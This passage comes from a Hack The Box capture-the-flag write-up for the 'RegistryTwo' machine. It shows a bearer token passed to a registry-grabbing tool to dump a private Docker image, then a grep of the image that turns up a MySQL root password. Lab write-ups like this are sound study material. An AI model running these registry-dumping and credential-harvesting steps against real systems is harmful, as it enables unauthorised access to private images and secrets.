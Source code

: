 ```bash
┌──(ar0x㉿kali)-[~/…/HTB/Machines/RegistryTwo/DockerRegistryGrabber]
└─$ python3 drg.py -A 'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNzAxNDU5MjQ3LCJuYmYiOjE3MDE0NTgzMzcsImlhdCI6MTcwMTQ1ODM0NywianRpIjoiODY1ODIxNTY5Nzk5NjU3OTUwOCIsImFjY2VzcyI6W3sidHlwZSI6InJlcG9zaXRvcnkiLCJuYW1lIjoiaG9zdGluZy1hcHAiLCJhY3Rpb25zIjpbInB1bGwiXX1dfQ.WFiwFzi_gjCq_nwQB7EJeYE30baPFmWRf-mGGxCM6Dai3ST4iV6tPOmGPB0HCf_N8mmvwy4dr4OjkUttQUFwSY83N75FQg40jrrhh_fFUpiLDIEewkOwxDRMeGA4M3hnVeHskAlfNLtquDq8mWPhpv_FtR9AoeStvjLhoc6Ft-6FUJzZKbTFbBgLKmff-Xb2fjWcpsNBMl_qOIwasIfp8JbBZWpk2FYYa2m1y9vq7ez6MQkWS4KL9lirhXRO1JTZBTVsF3NBcQCk9jhhdL2dJuD5vY1ggEcmD_0cIO9Q8uXIFJrG_WtSj6vy10GOnABPRGCFV0MNLfL8gyNzQD4eAA' --dump hosting-app https://www.webhosting.htb
[+] BlobSum found 36
[+] Dumping hosting-app
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b
    ....
    [+] Downloading : ff3a5c916c92643ff77519ffa742d3ec61b7f591b6b7504599d95a4a4113
```


#### Enumerating dumped filesystem

Great, now we have a look at the image and see what we can extract from it.

```bash
┌──(ar0x㉿kali)-[~/…/HTB/Machines/RegistryTwo/hosting-app]
└─$ ls
bin  blobs  dev  etc  home  lib  media  mnt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

We have the docker image file system, let us grep for `password`, maybe we will find something.

I found some interesting stuff and a MySQL password in `/etc/hosting.ini'.

```log
etc/hosting.ini:mysql.password=O8lBvQUBPU4CMbvJmYqY
```

Content of `hosting.ini`

```bash
#Mon Jan 30 21:05:01 GMT 2023
mysql.password=O8lBvQUBPU4CMbvJmYqY
rmi.host=registry.webhosting.htb
mysql.user=root
mysql.port=3306
mysql.host=localhost
domains.start-template=<body>\r\n<h1>It works\!</h1>\r\n</body>
domains.max=5
rmi.port=9002
```

Additionally i saw some logs that contain `Tomcat`, lets see what tomcat is doing in this web application.

Yea i found it, we have tomcat instance and folder in placed in `usr/local/tomcat`.

```bash
┌──(ar0x㉿kali)-[~/…/RegistryTwo/hosting-app/usr/local]
└─$ ls
bin  lib  share  tomcat
```
